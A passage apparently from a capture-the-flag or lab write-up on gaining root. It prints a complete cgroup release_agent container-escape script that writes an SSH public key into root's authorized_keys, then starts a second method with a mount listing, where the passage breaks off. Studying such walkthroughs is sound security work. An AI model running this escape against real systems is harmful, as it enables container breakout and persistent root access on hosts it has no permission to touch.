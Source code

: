 
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "echo 'public_rsa' > /root/.ssh/authorized_keys " >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
<img src="root.png" style="filter: drop-shadow(0 0 0.75rem crimson);">

And voilà we're root! 

---

# <p style="color:RED">Root PrivEsc (Method 2)</p>

---

Way simpler than first one!

First let's check mounts

```
df -aTh   # Or mount -l
```
